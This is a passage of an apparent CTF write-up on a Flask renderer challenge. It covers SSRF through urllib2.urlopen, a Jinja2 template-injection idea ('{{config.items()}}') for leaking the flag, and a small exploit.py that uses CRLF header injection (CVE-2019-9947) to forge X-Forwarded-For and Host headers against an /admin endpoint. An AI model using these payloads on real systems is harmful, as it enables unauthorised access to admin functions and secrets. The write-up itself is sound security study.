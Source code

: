 And sure, we know that tickets with logs storing in the `/home/tickets` folder that we could to read with know vulnerability.



## urllib2 HTTP Header Injection

The web service allows us to make HTTP requests like in situation with SSRF attack. We could see it in the following lines:

```python
res = proxy_read(url) if url else False

...

def proxy_read(url):
    #TODO : implement logging
    
    s = urlparse(url).scheme
    if s not in ["http", "https"]: #sjgdmfRk akfRk
        return ""
    return urllib2.urlopen(url).read()

```

As we can see in source code, the FLAG was kept in the flask's `config` variable. It says us that we can retrieve it with python command. Also we saw that the web service using `render_template` and `render_template_string` functions that work with Jinja2 template engine. So, we can predict that we will retrive the flag with string like `{{config.items()}}` in the template file.

But to send and read something from `/admin` we must learn to send requests with `X-Forwarded-For` header.

We knew that urllib2.urlopen() have vulnerability that could help us. (CVE-2019-9947)

To test it we have created host with similar conditions:

Dockerfile
```
FROM python:2.7.16

RUN apt-get update

CMD ["/bin/bash"]
```

exploit.py
```
import urllib2

url = "http://empty.jack.su/renderer/admin/ticket?ticket=6edaec793cac4db942472712a57d656b06d4cd0c HTTP/1.1\r\nX-Forwarded-For: 127.0.0.1\r\nUser-Agent: AdminBrowser/1.337\r\nHost: 127.0.0.1\r\n\r\nLol"

info = urllib2.urlopen(url).read()
print(info)
```
